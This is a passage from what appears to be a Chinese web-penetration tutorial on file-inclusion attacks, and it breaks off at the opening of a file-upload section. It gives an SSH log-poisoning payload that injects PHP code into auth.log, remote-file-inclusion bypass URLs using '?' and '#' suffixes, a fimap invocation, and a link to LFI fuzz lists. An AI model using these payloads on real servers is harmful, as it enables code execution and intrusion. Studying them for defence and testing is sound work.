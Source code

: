 ssh日志默认位置：

```
/var/log/auth.log（默认情况下，所有用户都可读）
/var/log/secure
```

payload：使用终端执行以下命令

```
ssh '<?php phpinfo();?>'@IP
```


## 远程文件包含绕过



### 问号绕过

```
?file=http://192.168.91.139/phpinfo.php?
```



### 井号绕过

```
?file=http://192.168.91.139/phpinfo.php#
```

这里推荐一个方便测试本地文件包含的工具

```
https://github.com/kurobeats/fimap
```

参数：

```
./fimap.py -u http://192.168.56.103/fileincl/example1.php?page=
```

![](https://img-blog.csdnimg.cn/img_convert/c22fa8d153c55ecbcdf67299bf86cb18.jpeg)
fuzz字典

```
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
```



# 文件上传

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。这种攻击方式是最为直接和有效的，“文件上传” 本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

不同的Web服务执行的脚本格式可能会有所不同，那么扩展名也会不同，通常Web服务的脚本类型来决定扩展名
常见的脚本解析扩展名
